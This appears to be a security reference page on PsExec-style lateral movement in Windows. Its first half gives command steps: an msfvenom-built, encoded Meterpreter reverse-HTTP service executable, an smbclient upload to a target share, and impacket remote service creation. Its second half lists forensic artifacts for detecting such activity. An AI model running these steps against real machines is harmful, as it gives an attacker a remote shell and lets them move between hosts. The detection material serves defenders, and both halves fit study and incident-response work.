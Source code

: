 ### Steps
* Create exe as service
```bash
msfvenom -p windows\x64\meterpreter\reverse_http LHOST=<host> LPORT=<port> -f exe-service --platform windows -e x64\xor_dynamic -o meter64_service.exe
```
* Upload exe to network share on target machine (needs password)
```bash
smbclient \\<host>\\<share> -U <user> -c "put meter64_service.exe test.exe"
```
* Create service remotely with impacket's service.py
```bash
python services.py <DOMAIN>\<user>@<host> create -name <service name> -display <display name> -path "\\\\<host>\\<share\\test.exe"
```
* Start service remotely with impacket's service.py
```bash
python services.py <DOMAIN>\<user>@<host> start -name <service name>
```

## Detection

### Detection on source
* Registry value created when PsExec License Agreement is accepted.
* Security EVTX:
    * `4648`: Logon with alternate credentials
        * Current logged on username
        * Alternate username
        * Destination hostname
        * Destination IP
        * Process name
* `NTUSER.dat`: `Software\SysInternals\PsExec\EulaAccepted`
* ShimCache: `psexec.exe`
* AmCache.hve: `psexec.exe`
* Prefetch:
    * `psexec.exe-{hash}.pf`
    * Possible references to other files accessed by psexec.exe.

### Detection on destination
* `psexesvc.exe` uploaded to target's $ADMIN share.
* ShimCache: `psexesvc.exe`
* Amcache: `psexesvc.exe`
* Prefetch: `psexesvc.exe-{hash}.pf`
* Service creation in `SYSTEM\CurrentControlSet\Services\PSEXESVC`. Name can be different, attackers may use `-r` switch.
* Security EVTX:
    * `4648`: Logon specifying alternate credentials
        * Username
        * Process Name
    * `4624`: Logon type 3 (normal) or logon type 2 for `-u` switch.
        * Source IP
        * Logon username
    * `4672`: Special privileges assigned to new logon.
        * Logon username
        * Logon by user with admin rights
        * Requirement for access default shares C$ and Admin$.
    * `5140`: Share access
        * `Admin$` share used by PsExec
    * `5145`
* System EVTX:
    * `7045` for service install.

